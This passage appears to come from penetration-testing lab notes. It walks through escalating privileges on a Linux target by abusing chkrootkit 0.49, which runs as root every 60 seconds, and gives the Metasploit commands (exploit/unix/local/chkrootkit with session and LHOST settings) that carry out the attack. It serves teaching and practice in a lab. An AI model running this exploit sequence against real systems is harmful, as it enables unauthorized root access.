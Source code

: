 - Investigate the `/bin/check-down` binary

```bash
cat /bin/check-down

    #!/bin/bash
    while :
    do
            /usr/local/bin/chkrootkit/chkrootkit -x > /dev/null 2>&1
            sleep 60
    done
```

![cat /bin/check-down](3-metasploitassets/image-20230422133438780.png)

> 📌 The `/usr/local/bin/chkrootkit/chkrootkit` binary is executed every 60 seconds.
>
> - [**`chkrootkit`**](https://www.chkrootkit.org/) - locally checks for signs of a rootkit
>
> Chkrootkit < 0.50 is vulnerable to [local privilege escalation vulnerability](https://www.exploit-db.com/exploits/33899)

- Check `chkrootkit` version

```bash
chkrootkit -V
	chkrootkit version 0.49
```

- Background both the shell and the meterpreter session with `CTRL+Z`

### Privilege Escalation

- The technique will depend on the version of the target Linux Kernel and the distribution version.
  - It is necessary to manually enumerate a privesc vulnerable program, `Chkrootkit v.0.49` in this case 

```bash
search chkrootkit
use exploit/unix/local/chkrootkit
info
# Description:
#   Chkrootkit before 0.50 will run any executable file named 
#   /tmp/update as root, allowing a trivial privilege escalation. 
#   WfsDelay is set to 24h, since this is how often a chkrootkit scan is 
#   scheduled by default.
set CHKROOTKIT /bin/chkrootkit
set SESSION 2
set LHOST 192.15.244.2
sessions # check the used ports
run
```
